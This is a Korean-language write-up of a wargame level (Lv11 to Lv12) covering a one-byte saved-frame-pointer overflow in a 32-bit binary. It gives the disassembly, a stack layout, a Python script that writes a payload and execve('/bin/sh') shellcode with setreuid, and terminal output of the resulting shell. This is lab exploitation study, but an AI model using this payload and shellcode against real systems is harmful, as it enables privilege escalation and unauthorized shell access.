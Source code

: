 ﻿# Lv11 -> Lv12

## lv12

main
```nasm
   0x0804846c <+0>:	push   ebp
   0x0804846d <+1>:	mov    ebp,esp
   0x0804846f <+3>:	cmp    DWORD PTR [ebp+0x8],0x1
   0x08048473 <+7>:	jg     0x8048490 <main+36>
   0x08048475 <+9>:	push   0x8048504
   0x0804847a <+14>:	call   0x8048354 <printf@plt>
   0x0804847f <+19>:	add    esp,0x4
   0x08048482 <+22>:	push   0x0
   0x08048484 <+24>:	call   0x8048364 <exit@plt>
   0x08048489 <+29>:	add    esp,0x4
   0x0804848c <+32>:	lea    esi,[esi+eiz*1+0x0]
   0x08048490 <+36>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048493 <+39>:	add    eax,0x4
   0x08048496 <+42>:	mov    edx,DWORD PTR [eax]
   0x08048498 <+44>:	push   edx
   0x08048499 <+45>:	call   0x8048440 <problem_child>
   0x0804849e <+50>:	add    esp,0x4
   0x080484a1 <+53>:	leave  
   0x080484a2 <+54>:	ret 
```

problem_child
```nasm
   0x08048440 <+0>:	push   ebp
   0x08048441 <+1>:	mov    ebp,esp
   0x08048443 <+3>:	sub    esp,0x28
   0x08048446 <+6>:	push   0x29
   0x08048448 <+8>:	mov    eax,DWORD PTR [ebp+0x8]
   0x0804844b <+11>:	push   eax
   0x0804844c <+12>:	lea    eax,[ebp-0x28]
   0x0804844f <+15>:	push   eax
   0x08048450 <+16>:	call   0x8048374 <strncpy@plt>
   0x08048455 <+21>:	add    esp,0xc
   0x08048458 <+24>:	lea    eax,[ebp-0x28]
   0x0804845b <+27>:	push   eax
   0x0804845c <+28>:	push   0x8048500
   0x08048461 <+33>:	call   0x8048354 <printf@plt>
   0x08048466 <+38>:	add    esp,0x8
   0x08048469 <+41>:	leave  
   0x0804846a <+42>:	ret
```

이번 문제는 `problem_child` 함수에서 sfp의 가장 하위 바이트까지 BOF가 가능하다. 이 뜻은 main함수의 `ebp`를 변조할 수 있다는 의미이고, main의 `leave; ret;` 을 통해 조작한 `ebp+4`에 존재하는 주소로 `ret`하게 만들 수 있다는 의미이다.

`problem_child` 함수에 존재하는 `buf`의 길이는 `0x28`이다. 즉, `0x20`바이트만큼 dummy값을 주고, main함수의 sfp역할을 할 dummy를 4바이트만큼 준다. 그 후 `ret`역할 을 할 주소를 써주면 된다.

나는 argv[2]에 쉘코드를 넣고, 그 주소를 이용했다. 아래는 내가 작성한 `problem_child`의 스택 프레임이다.

Stack | 
---- |
1 byte of sfp |
&argv[2] |
bbbb | 
dummy 0x20bytes |

여기서 sfp의 1바이트는 `bbbb`의 시작 주소를 가리킨다. 이렇게 하면 main함수로 돌아 갔을 때 `ebp`가 `bbbb`를 가리키게 되고, main 함수의 `leave`가 실행되면 `ebp`에 `bbbb`가 들어가고, `ret`이 실행되면 `argv[2]`의 주소를 `eip`에 넣고 진행하게 될 것이다.

## exploit.py

```python 
from pwn import *

context.log_level = 'debug'

binary = './tmp1'

argv2 = 0xffffd410
buf20 = 0x84

payload = 'a'*0x20 + 'b'*4 + p32(argv2) + chr(buf20)
shellcode = '\x90'*1000 + '\x66\xb8' + p16(1012) + '\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x31\xdb\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80'

with open('./payload', 'w') as fp:
    fp.write(payload)

with open('./shellcode','w') as fp:
    fp.write(shellcode)
```

이번 문제는 주소를 정확히 찾아야 하므로  pwntool을 이용하지 않고 직접 exploit했다. 그러기 위해 payload와 shellcode를 파일로 각자 저장하는 코드를 작성했다.

```bash
lv11@ubuntu:~$ ./lv12 `cat payload` `cat shellcode`
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbb���������z���
$ id
uid=1012(lv12) gid=1011(lv11) groups=1011(lv11)
$ my-pass
give me a job
$ exit
```